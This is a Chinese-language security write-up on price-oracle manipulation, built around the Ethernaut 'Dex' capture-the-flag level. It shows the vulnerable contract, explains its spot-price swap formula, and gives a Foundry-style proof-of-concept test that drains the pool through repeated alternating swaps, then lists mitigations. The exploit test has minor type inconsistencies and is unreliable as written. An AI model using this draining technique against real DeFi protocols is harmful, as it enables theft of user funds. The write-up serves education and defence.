 # Dex
## 价格操纵攻击
### 价格预言机
去中心化交易所（DEX）是加密货币交易的主要方式。它们允许用户交换一种加密货币为另一种加密货币，而无需通过中央机构。

在执行交易的过程里，价格数据是至关重要的，那么价格如何获取呢？交易所本身是去中心化的，但由单一交易所提供的资产价格是中心化的，因为它来自一个去中心化交易所。然而，如果我们考虑代表实际资产而不是虚构资产的代币，那么大多数代币都会在多个去中心化交易所和网络中拥有交易对。这将减少在特定去中心化交易所受到此类攻击时对资产价格的影响。

价格预言机是用于查看给定资产价格信息的任何工具.
1. [chainlink](https://docs.chain.link/data-feeds/using-data-feeds)是最知名的预言机之一，提供安全可靠的数据源，支持多种数据源接入，并提供可信赖的数据传输。
2. [UniswapV2 Oracle](https://docs.uniswap.org/contracts/v2/concepts/core-concepts/oracles) 依赖于一种称为 [TWAP](https://en.wikipedia.org/wiki/Time-weighted_average_price#) 的时间加权价格模型，该协议是防止价格操控的机制，但远远不够，因为该协议严重依赖于去中心化交易所协议的流动性，如果流动性过低，价格很容易被操纵。
### 价格操纵
攻击者可以利用价格操纵迫使 DeFi 协议执行有损于其利益的转账操作。例如，他们可以操纵协议进行从价值较低的资产到价值较高的资产的交换，或同意进行一笔巨额贷款，其中低价值的资产被用作抵押品。这种漏洞利用是通过操纵代币的流通以及对代币价格的后续影响来实现的。这种行为导致了 DeFi 生态系统内的巨大损失。

下面我们通过 Ethernaut Dex 了解价格操纵攻击。
##
## 攻击分析
- 攻击类型：操控价格预言机
- 目标：player最开始token1和token2各有10个，合约则各有100个，要求攻击者从合约中完全取走至少 1 种token
- 平台网址：https://ethernaut.zeppelin.solutions/
[合约]
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract Dex is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```
合约`Dex.sol`实现了去中心化交易所（DEX）的基本功能。它允许DEX的所有者提供代币对 token1 和 token2 的流动性，当最终用户交换这些代币时，不收取任何费用。最终用户将使用DEX来交换（出售）一定数量的一种代币，以获取另一种代币的 swapAmount（取决于DEX的代币价格）。我们主要关注以下3个函数：
- `swap(address from, address to, uint amount)`：交换（卖出/买入）代币。
  该函数通过合约里`getSwapPrice`计算交换价格，卖出一定数量的 token1 ，将获取 token2 的数量。之后根据计算出的数量进行转账。
```
    function swap(address from, address to, uint amount) public {
      require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
      require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
      uint swapAmount = getSwapPrice(from, to, amount);
      IERC20(from).transferFrom(msg.sender, address(this), amount);
      IERC20(to).approve(address(this), swapAmount);
      IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }
```
- `getSwapPrice(address from, address to, uint amount)`：价格预言机，获取 Dex 的 from-to 的瞬时价格，输入交易对的地址，和交换 from 代币的数量，根据即时价格获取换出 to 代币的数量。该 Dex 不使用外部预言机（如 Chainlink）或 Uniswap TWAP（时间加权平均价格）来计算交换价格。相反，它使用代币的余额来计算，这是一种即时价格，我们从这点入手。
```
  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
```
在 Solidity 中，除法是通过按照**舍入误差**进行，于所有整数除法都向下舍入到最接近的整数而引入的，7/2 等于3，而不是3.5。 

## Proof of Concept。

根据以上分析，完整的 PoC 代码如下：
```solidity
interface IDex {
    function token1() external returns (address);
    function token2() external returns (address);
    function swap(address from, address to, uint amount) external;
    function getSwapPrice(address from, address to, uint amount) external view returns(uint);
    function approve(address spender, uint amount) external;
}

interface ISwappableToken {
    function approve(address owner, address spender, uint256 amount) external;
    function balanceOf(address account) external view returns (uint256);
}

contract DexTest is BaseTest {

    function test_Attack() public {
        ISwappableToken token1 = ISwappableToken(IDex(contractAddress).token1());
        ISwappableToken token2 = ISwappableToken(IDex(contractAddress).token2());
        vm.startPrank(deployer);

        token1.approve(contractAddress, 200);
        token2.approve(contractAddress, 200);

        // To drain the dex our goal is to make the balance of `tokenIn` much lower compared to balance of tokenOut
        attackSwap(token1, token2);
        attackSwap(token2, token1);
        attackSwap(token1, token2);
        attackSwap(token2, token1);
        attackSwap(token1, token2);
        /* 
            在所有这些交换之后，当前情况如下：
            token1 余额 -> 0
            token2 余额 -> 65
            Dex token1 余额 -> 110
            Dex token2 余额 -> 45
            如果交换所有的 65 个 token2，将得到 158 个 token1，交易会失败
            110 = token2 数量 * 110 / 45
            token2 数量 = 45
         */
        IDex(contractAddress).swap(address(token2), address(token1), 45);

        assertEq(token1.balanceOf(contractAddress) == 0 || token2.balanceOf(contractAddress) == 0, true);

        vm.stopPrank();
    }

    function attackSwap(address tokenIn, address tokenOut) internal {
        IDex(contractAddress).swap(address(tokenIn), address(tokenOut), tokenIn.balanceOf(player));
    }
}
```
## 安全建议
1. 不要使用流动性差的池子做价格预言机，价格容易随着代币的流动性变化而波动。
2. 使用去中心化的预言机，这种方法更安全性，但存在缺点，如网络拥塞时可能无法及时更新价格，同时需要用户相信你会更新价格。
3. 不要使用瞬时价格，价格预言机操纵是一个时间敏感的操作，攻击者想要降低风险，他们希望在单个交易中完成操纵价格预言机所需的两笔交易（闪电贷价格操控攻击）。加入价格延迟以减少价格瞬时波动。
4. 时间加权平均价格（UniswapV2 TWAP）这种预言机对于大型资金池，在长时间内无链拥塞情况下，高度抵抗预言机操纵攻击。但由于其实现方式的特性，可能无法在市场剧烈波动时快速响应，并且仅适用于链上已有流动性代币。
5. 对Oracle预言机返回的结果进行校验，以确保数据的准确性和可靠性。

## 扩展阅读
[samczsun: So you want to use a price oracle](https://samczsun.com/so-you-want-to-use-a-price-oracle/)
[智能合约安全指南#3：价格预言机的漏洞](https://blog.openzeppelin.com/secure-smart-contract-guidelines-the-dangers-of-price-oracles)